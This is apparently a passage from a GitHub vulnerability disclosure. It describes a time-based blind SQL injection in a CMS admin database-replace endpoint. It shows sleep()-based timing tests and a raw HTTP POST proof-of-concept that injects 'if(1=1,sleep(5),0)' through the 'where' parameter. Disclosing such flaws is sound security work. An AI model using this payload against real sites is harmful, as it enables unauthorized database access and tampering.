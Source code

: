 I tried to sleep(2) seconds and see if the page delay time is 2*2=4 seconds:
<img width="1418" height="920" alt="image" src="https://github.com/user-attachments/assets/89f08eca-08ba-48ec-aa5a-03575b60cdd2" />

I tried to sleep(5) seconds and see if the page delay time is 2*5=10 seconds:
<img width="1422" height="925" alt="image" src="https://github.com/user-attachments/assets/6fbd4bf2-c7da-4cc3-b575-0fc04d12a4db" />


# POC
```
(During deployment, I said that admin.php is changed to admin1.php)
POST /admin1.php/admin/database/rep HTTP/1.1
Host: [TARGET]
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=XXX

table=mac_admin&field=admin_name&findstr=a&tostr=b&where=and+if(1=1,sleep(5),0)&__token__=[PASTE_THE_TOKEN_HERE]

```





<img width="1414" height="920" alt="image" src="https://github.com/user-attachments/assets/c1d911a2-43a6-4047-8c8c-e25654c44303" />
